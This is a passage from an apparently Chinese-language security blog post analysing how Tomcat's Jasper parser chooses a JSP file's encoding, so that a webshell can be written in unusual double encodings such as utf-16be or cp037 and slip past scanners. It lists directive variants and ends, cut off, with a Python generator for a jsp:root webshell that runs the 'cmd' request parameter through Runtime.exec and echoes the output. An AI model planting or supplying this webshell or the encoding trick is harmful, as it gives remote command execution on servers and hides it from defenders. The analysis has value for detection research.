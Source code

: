             if (encoding == null) {  
                encoding = saveEncoding;  
            }  
      
            return encoding;  
        }

课代表直接总结了，简单来说最终其实就是根据文本内容中的pageEncoding的值来决定最终编码，这里有两种写法

第一种

    
    
    <%@ page language="java" pageEncoding="utf-16be"%>  
    或  
    <%@ page contentType="charset=utf-16be" %>  
    或  
    <%@ tag language="java" pageEncoding="utf-16be"%>  
    或  
    <%@ tag contentType="charset=utf-16be" %>

第二种

    
    
    <jsp:directive.page pageEncoding="utf-16be"/>  
    或  
    <jsp:directive.page contentType="charset=utf-16be"/>  
    或  
    <jsp:directive.tag pageEncoding="utf-16be"/>  
    或  
    <jsp:directive.tag contentType="charset=utf-16be"/>

同时如果使用的`page`后面可以不需要空格,也就是形如`<%@ pagepageEncoding="utf-16be"
%>`或``具体可以看看代码的解析这部分不重要

因此看到这里你就知道为什么开头提到的phithon提供的demo能够成功解析的原因了

![]()0.png第二种![]()5.png第三种![]()9.png

#### 为什么上面这个有一定局限性现

实际上如果你认真看了上面的代码你会发现决定具体代码逻辑是否能走到这一步和`isBomPresent`的值密不可分，我们也说到了只有文件前四个字节无法与`org.apache.jasper.xmlparser.XMLEncodingDetector#getEncodingName`这个方法中某个编码匹配，之后假定XML文挡采用UTF-8编码，最终才能保证`isBomPresent`为false，因此这种利用的局限性在于文件头只能是utf8格式才能保证代码逻辑的正确执行

#### 更灵活的双编码jspwebshell

根据我们前面的分析，下面这种方式实现双编码会更灵活，可以更多样地选择双编码间的组合

这里简单写个python生成一个即可作为演示

    
    
    a0 = '''<?xml version="1.0" encoding='cp037'?>'''  
    a1 = '''  
    <jsp:root xmlns:jsp="http://java.sun.com/JSP/Page"  
              version="1.2">  
        <jsp:directive.page contentType="text/html"/>  
        <jsp:declaration>  
        </jsp:declaration>  
        <jsp:scriptlet>  
    Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));  
    java.io.BufferedReader input = new java.io.BufferedReader(new java.io.InputStreamReader(p.getInputStream()));  
    String line = "";  
    while ((line = input.readLine()) != null) {  
      out.write(line+"\\n");  
    }  
    </jsp:scriptlet>  
        <jsp:text>  
        </jsp:text>  